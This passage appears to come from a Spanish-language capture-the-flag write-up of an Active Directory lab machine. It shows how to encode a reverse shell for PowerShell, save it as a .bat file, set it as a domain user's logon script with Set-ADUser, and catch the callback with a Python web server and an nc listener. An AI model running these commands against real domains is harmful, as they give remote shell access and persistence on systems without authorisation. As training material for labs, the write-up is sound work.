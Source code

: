 <h4>Convertir una reverseshell en un archivo .bat</h4>

vamos a usar nuestra reverse shell de la pagina revshells.com pero recuerda cambiar el puerto o cerrar la sesion que tienes con rlwrap

yo voy a aprovechar la reverse shell ya creada y cerrare la sesion con el primer usuario comprometido (porque a esta altura no nos sirve de nada)

usaremos el mismo comando que usamos en la inyeccion slq para convertir el comando de descarga en base64 ejecutable por powershell
```bash
cat comando | iconv -t utf-16le | base64 -w0; echo
```
y vamos a guardarlo en un archivo con extension .bat en la maquina comprometida con el usuario 4810
```powershell
echo 'powershell -e SQ...' | Out-File -FilePath 3vilsec.bat -Encoding ASCI
```
teniendo esto, vamos a insertar el "nuevo" script de inicio en el usuario:
```powershell
Set-ADUser -Identity SSA_6010 -ScriptPath "A32...\3vilsec.bat"
```
*ten en cuenta que debes tener el servidor python donde tienes la reverse shell y rlwrap con nc en escucha*:
```bash
python3 -m http.server 80
```
```bash
rlwrap nc -lnvp 9001
```
<img src="/images/writeup-blazorized/44.png">

<h4>Jugada Final:</h4>

en bloodhound tenemos lo que necesitamos basado en los permisos de este usuario:
